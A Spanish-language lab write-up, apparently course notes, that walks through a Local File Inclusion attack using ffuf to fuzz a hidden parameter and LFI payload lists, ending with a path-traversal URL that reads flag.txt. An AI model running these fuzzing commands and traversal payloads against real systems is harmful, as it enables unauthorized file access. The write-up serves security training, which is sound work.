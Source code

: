 # LFI: ffuf para automatizar ataques 👩‍💻

La página web que vulneraremos es

![web.PNG](./assets/08-Octavo/01-Web.PNG)

* No tenemos ninguna forma de apuntar a un archivo con algún parámetro. ❓

---

Ahora usaremos `ffuf` para descubrir algún parámetro mediante el cual podremos apuntar a un archivo. 

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<IP Web>:<Puerto>/index.php?FUZZ=value' -fs 2309
```

* `-fs 2309` En mi caso se repetian múltiples parárametro con esta misma cantida de bytes por lo que oculte todas las respuestas con esa cantidad de bytes. 1️⃣0️⃣

<p align="center">
    <img src="./assets/08-Octavo/02-ffuf.PNG">
</p>

---

Ahora que tenemos un parámetro mediante el cual apuntar a un recurso del sistema, automatizaremos `payloads LFI` usando ffuf. 🐶

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ  -u 'http://<IP Web>/index.php?view=FUZZ' -fs 1935
```

<p align="center">
    <img src="./assets/08-Octavo/03-ffuf.PNG">
</p>

---

Con los payloads LFI ya obtenidos obtendremos el contenido del archivo `flag.txt` ubicado en la raiz del sistema `/`

* **URL:** `http://<IP Web>:<Puerto>/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt`

<p align="center">
    <img src="./assets/08-Octavo/04-flag.PNG">
</p>
